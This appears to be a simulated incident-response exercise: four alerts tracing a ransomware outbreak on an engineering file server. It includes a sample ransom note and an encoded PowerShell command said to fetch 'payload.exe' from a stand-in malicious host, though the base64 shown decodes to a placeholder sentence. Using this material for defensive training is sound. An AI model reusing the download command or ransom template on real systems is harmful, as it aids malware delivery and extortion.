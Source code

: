 #### **Alert 1: Suspicious File Modification on ENG-FS01**

**Telemetry Data (File Modifications):**
- High frequency of renaming observed in directories: `\\ENG-FS01\Projects\`, `\\ENG-FS01\Designs\`
- Common filename pattern: original document names now end with `.crypted` extension
- Files affected: `project_plan.docx`, `design_specs.xlsx`, `budget_report.pdf`

**Sample Ransom Note (From !README_DECRYPT!.txt):**
```
All your files have been encrypted with strong encryption!
To restore access, you must pay a ransom of 2 BTC to the following address: 1FakeBitcoinAddressHere

If you do not pay within 72 hours, your data will be permanently lost.
```

<div class="neon-line"></div>

#### **Alert 2: Unusual Network Activity from ENG-WKS12**

**Telemetry Data (SMB Traffic):**
- High volume of SMB file write operations from `ENG-WKS12` to `ENG-FS01`
- Connection timeline:
  - 12:30 PM - Connection established from `ENG-WKS12` to `ENG-FS01`
  - 12:32 PM - Sudden increase in file write operations
  - 1:00 PM - SMB session terminated

<div class="neon-line"></div>

#### **Alert 3: Unauthorized Process Execution on ENG-FS01**

**Telemetry Data (Process Execution on ENG-FS01):**
- Process Name: `cmd.exe`
- Command Line:
  ```shell
  cmd.exe /c powershell.exe -enc dGhpcyBpcyBhIHNpbXVsYXRlZCBleGFtcGxlIGZvciBiYXNlNjQgZGVjb2Rpbmc=
  ```
  - Decodes to: `powershell.exe -Command "Invoke-WebRequest -Uri http://malicious-server.com/downloads/payload.exe -OutFile C:\Windows\Temp\payload.exe"`
- Execution timeline:
  - 12:25 PM - Command executed by user `Engineering`
  - 12:27 PM - `payload.exe` created in `C:\Windows\Temp\`
  - 12:28 PM - `payload.exe` executed and initiated file modifications

<div class="neon-line"></div>

#### **Alert 4: Login Failure Alert for Multiple Workstations**

**Telemetry Data (Authentication Attempts):**
- Failed login attempts:
  - Source: `ENG-WKS12`
  - Targets: `ENG-WKS15`, `ENG-WKS17`, `ENG-WKS20`
- Frequency:
  - 12:35 PM - 20 failed login attempts over SMB protocol, targeting unrelated engineering workstations
- Account used: `Engineering`

